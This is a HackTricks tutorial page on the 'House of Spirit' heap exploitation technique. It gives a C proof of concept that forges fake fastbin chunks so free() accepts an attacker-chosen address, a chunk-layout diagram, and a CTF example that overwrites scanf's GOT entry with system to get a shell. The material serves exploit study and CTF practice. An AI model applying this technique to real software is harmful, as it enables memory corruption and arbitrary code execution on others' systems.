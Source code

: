 # House of Spirit

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Basic Information

### Code

<details>

<summary>House of Spirit</summary>

```c
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

// Code altered to add som prints from: https://heap-exploitation.dhavalkapil.com/attacks/house_of_spirit

struct fast_chunk {
  size_t prev_size;
  size_t size;
  struct fast_chunk *fd;
  struct fast_chunk *bk;
  char buf[0x20];               // chunk falls in fastbin size range
};

int main() {
  struct fast_chunk fake_chunks[2];   // Two chunks in consecutive memory
  void *ptr, *victim;

  ptr = malloc(0x30);

  printf("Original alloc address: %p\n", ptr);
  printf("Main fake chunk:%p\n", &fake_chunks[0]);
  printf("Second fake chunk for size: %p\n", &fake_chunks[1]);

  // Passes size check of "free(): invalid size"
  fake_chunks[0].size = sizeof(struct fast_chunk);

  // Passes "free(): invalid next size (fast)"
  fake_chunks[1].size = sizeof(struct fast_chunk);

  // Attacker overwrites a pointer that is about to be 'freed'
  // Point to .fd as it's the start of the content of the chunk
  ptr = (void *)&fake_chunks[0].fd;

  free(ptr);

  victim = malloc(0x30);
  printf("Victim: %p\n", victim);

  return 0;
}
```

</details>

### Goal

* Be able to add into the tcache / fast bin an address so later it's possible to alloc it

### Requirements

* This attack requires an attacker to be able to create a couple of fake fast chunks indicating correctly the size value of it and then to be able to free the first fake chunk so it gets into the bin.

### Attack

* Create fake chunks that bypasses security checks: you will need 2 fake chunks basically indicating in the correct positions the correct sizes
* Somehow manage to free the first fake chunk so it gets into the fast or tcache bin and then it's allocate it to overwrite that address

**The code from** [**guyinatuxedo**](https://guyinatuxedo.github.io/39-house\_of\_spirit/house\_spirit\_exp/index.html) **is great to understand the attack.** Although this schema from the code summarises it pretty good:

```c
/*
    this will be the structure of our two fake chunks:
    assuming that you compiled it for x64

    +-------+---------------------+------+
    | 0x00: | Chunk # 0 prev size | 0x00 |
    +-------+---------------------+------+
    | 0x08: | Chunk # 0 size      | 0x60 |
    +-------+---------------------+------+
    | 0x10: | Chunk # 0 content   | 0x00 |
    +-------+---------------------+------+
    | 0x60: | Chunk # 1 prev size | 0x00 |
    +-------+---------------------+------+
    | 0x68: | Chunk # 1 size      | 0x40 |
    +-------+---------------------+------+
    | 0x70: | Chunk # 1 content   | 0x00 |
    +-------+---------------------+------+

    for what we are doing the prev size values don't matter too much
    the important thing is the size values of the heap headers for our fake chunks
*/
```

{% hint style="info" %}
Note that it's necessary to create the second chunk in order to bypass some sanity checks.
{% endhint %}

## Examples

* CTF [https://guyinatuxedo.github.io/39-house\_of\_spirit/hacklu14\_oreo/index.html](https://guyinatuxedo.github.io/39-house\_of\_spirit/hacklu14\_oreo/index.html)
  * **Libc infoleak**: Via an overflow it's possible to change a pointer to point to a GOT address in order to leak a libc address via the read action of the CTF
  * **House of Spirit**: Abusing a counter that counts the number of "rifles" it's possible to generate a fake size of the first fake chunk, then abusing a "message" it's possible to fake the second size of a chunk and finally abusing an overflow it's possible to change a pointer that is going to be freed so our first fake chunk is freed. Then, we can allocate it and inside of it there is going to be the address to where "message" is stored. Then, it's possible to make this point to the `scanf` entry inside the GOT table, so we can overwrite it with the address to system.\
    Next time `scanf` is called, we can send the input `"/bin/sh"` and get a shell.

## References

* [https://heap-exploitation.dhavalkapil.com/attacks/house\_of\_spirit](https://heap-exploitation.dhavalkapil.com/attacks/house\_of\_spirit)

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
